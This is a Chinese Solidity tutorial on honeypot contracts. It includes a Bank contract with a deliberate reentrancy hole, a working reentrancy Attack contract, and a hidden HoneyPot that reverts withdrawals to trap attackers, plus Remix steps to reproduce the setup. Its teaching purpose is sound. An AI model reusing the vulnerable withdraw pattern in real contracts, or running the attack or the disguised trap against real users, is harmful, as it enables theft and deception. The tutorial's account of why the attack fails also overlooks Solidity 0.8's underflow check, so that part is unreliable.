



# 75.Honeypot
Honeypot是一种用来捕捉黑客的陷阱。

## 漏洞
通过结合两个漏洞，重新进入攻击和隐藏恶意代码，我们可以构建一个合约来捕获恶意用户。


Bank 是一个调用 Logger 记录事件的合约。
Bank.withdraw() 存在重新进入攻击漏洞。
所以黑客试图从 Bank 中取走以太币。
但实际上，重新进入攻击漏洞是用来引诱黑客的。
通过在 Logger 的位置上放置 HoneyPot 并部署 Bank，这个合约就成为了黑客的陷阱。让我们看看发生了什么。

1. Alice 部署 HoneyPot
2. Alice 部署 Bank，并将 HoneyPot 的地址传递给它
3. Alice 往 Bank 中存入 1 个以太币。
4. Eve 发现 Bank.withdraw 中的重新进入攻击漏洞，并决定攻击它。
5. Eve 部署 Attack，并将 Bank 的地址传递给它
6. Eve 调用 Attack.attack()，但交易失败了。

发生了什么？
Eve 调用 Attack.attack()，并开始从 Bank 中提取以太币。
当最后一个 Bank.withdraw() 即将完成时，它调用 logger.log()。
logger.log() 调用 HoneyPot.log() 并抛出异常。交易失败了。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Bank {
    mapping(address => uint) public balances;
    Logger logger;

    constructor(Logger _logger) {
        logger = Logger(_logger);
    }

    function deposit() public payable {
        balances[msg.sender] += msg.value;
        logger.log(msg.sender, msg.value, "Deposit");
    }

    function withdraw(uint _amount) public {
        require(_amount <= balances[msg.sender], "Insufficient funds");

        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] -= _amount;

        logger.log(msg.sender, _amount, "Withdraw");
    }
}

contract Logger {
    event Log(address caller, uint amount, string action);

    function log(address _caller, uint _amount, string memory _action) public {
        emit Log(_caller, _amount, _action);
    }
}
```
黑客试图通过重入攻击来耗尽存储在银行中的以太币。
```solidity
contract Attack {
    Bank bank;

    constructor(Bank _bank) {
        bank = Bank(_bank);
    }

    fallback() external payable {
        if (address(bank).balance >= 1 ether) {
            bank.withdraw(1 ether);
        }
    }

    function attack() public payable {
        bank.deposit{value: 1 ether}();
        bank.withdraw(1 ether);
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
让我们假设这段代码在一个单独的文件中，这样其他人就无法读取它。
```solidity
contract HoneyPot {
    function log(address _caller, uint _amount, string memory _action) public {
        if (equal(_action, "Withdraw")) {
            revert("It's a trap");
        }
    }

    // 使用keccak256比较字符串的函数
    function equal(string memory _a, string memory _b) public pure returns (bool) {
        return keccak256(abi.encode(_a)) == keccak256(abi.encode(_b));
    }
}
```

## remix验证
1. 部署 HoneyPot合约

2. 部署 Bank合约传入HoneyPot合约地址。并调用deposit函数存入1 eth

3. 部署Attack合约传入Bank合约地址。调用attack()函数攻击
